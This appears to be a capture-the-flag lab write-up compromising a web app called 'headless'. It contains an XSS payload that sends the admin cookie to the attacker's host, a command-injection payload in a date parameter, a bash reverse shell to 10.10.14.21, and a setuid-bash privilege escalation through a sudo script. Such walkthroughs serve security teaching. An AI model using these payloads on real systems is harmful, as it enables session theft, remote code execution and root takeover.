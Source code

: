# headless-reference

On intercepting the request, we see a cookie called **is_admin**. Putting it through the decoder, we find that there is the word "user" along with some random gibberish.

So, let's try and get this cookie via xss.

The message atrribute can be separated by a semicolon like this with the payload:<br>
`message=random;<img src=x onerror=fetch('http://<YourIP>/?c='+document.cookie);>`

Start a http server with the address as `<YourIP>` and the run this a couple of times to get the requests.

The captured payload looks like this <br/>
`GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`

By pasting the value of is_admin in place of the original, we get the admin dashboard.

I have setup the proxy with a *match and replace* rule so that it will automatically replace the is_admin parameter with the stolen credentials.

Now in the admin dashboard, when we intercept the request, we see a parameter date.<br>
`date=2023-09-15`

We can malform this by doing<br>
`date=2023-09-15;whoami`

This allows for code execution on the server.

Let's spawn a reverse shell
payload:<br>
`date=2023-09-15;/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.21/4444+0>%261'`

Possible PE vector:
/usr/bin/python3 /home/dvir/app/inspect_reports.py

Now the actual PE vector can be found by running sudo -l.

This will reveal a file called `/usr/bin/syscheck`.

By running cat /usr/bin/syscheck, we can see that it runs a file called initdb.sh as root.

Therefore, we can do this:

```bash
echo "chmod u+s /bin/bash" > initdb.sh
```

This command will create a file called **initdb.sh** with the contents, *chmod u+s /bin/bash*.

Basically what this chmod command does is that it runs the setuid bit on the /bin/bash program through syscheck. Since syscheck has root perms, we're using it to give ourselves the root shell, since the chmod command in this case, will give the bash file root perms, since root is the owner.

run /usr/bin/syscheck as follows after running the above command
```bash
sudo /usr/bin/syscheck
```

After that run bash

```bash
/bin/bash -p
```

We're root now.
Get the flag

